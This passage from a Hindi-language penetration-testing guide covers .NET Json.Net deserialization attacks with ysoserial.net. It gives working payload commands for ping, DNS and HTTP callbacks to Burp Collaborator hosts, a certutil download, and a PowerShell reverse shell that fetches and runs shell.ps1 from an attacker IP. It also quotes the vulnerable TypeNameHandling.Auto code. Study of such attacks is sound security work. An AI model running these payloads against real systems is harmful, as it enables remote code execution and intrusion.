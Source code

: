 **ysoserial उदाहरण** शोषण बनाने के लिए:
```bash
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```
**ysoserial.net** में एक **बहुत दिलचस्प पैरामीटर** है जो हर एक्सप्लॉइट के काम करने के तरीके को बेहतर समझने में मदद करता है: `--test`\
यदि आप इस पैरामीटर को इंगित करते हैं, तो **ysoserial.net** **स्थानीय रूप से** **एक्सप्लॉइट** करने की **कोशिश** करेगा, ताकि आप यह परीक्षण कर सकें कि आपका पेलोड सही तरीके से काम करेगा।\
यह पैरामीटर सहायक है क्योंकि यदि आप कोड की समीक्षा करते हैं, तो आप निम्नलिखित कोड के टुकड़े पाएंगे (से [ObjectDataProviderGenerator.cs](https://github.com/pwntester/ysoserial.net/blob/c53bd83a45fb17eae60ecc82f7147b5c04b07e42/ysoserial/Generators/ObjectDataProviderGenerator.cs#L208)):
```java
if (inputArgs.Test)
{
try
{
SerializersHelper.JsonNet_deserialize(payload);
}
catch (Exception err)
{
Debugging.ShowErrors(inputArgs, err);
}
}
```
इसका मतलब है कि एक्सप्लॉइट का परीक्षण करने के लिए कोड [serializersHelper.JsonNet\_deserialize](https://github.com/pwntester/ysoserial.net/blob/c53bd83a45fb17eae60ecc82f7147b5c04b07e42/ysoserial/Helpers/SerializersHelper.cs#L539) को कॉल करेगा।
```java
public static object JsonNet_deserialize(string str)
{
Object obj = JsonConvert.DeserializeObject<Object>(str, new JsonSerializerSettings
{
TypeNameHandling = TypeNameHandling.Auto
});
return obj;
}
```
In the **पिछले कोड में बनाए गए एक्सप्लॉइट के लिए संवेदनशीलता है**। इसलिए यदि आप किसी .Net एप्लिकेशन में कुछ समान पाते हैं, तो इसका मतलब है कि वह एप्लिकेशन भी संभवतः संवेदनशील है।\
इसलिए **`--test`** पैरामीटर हमें यह समझने की अनुमति देता है कि **कौन से कोड के टुकड़े** deserialization एक्सप्लॉइट के लिए संवेदनशील हैं जो **ysoserial.net** बना सकता है।

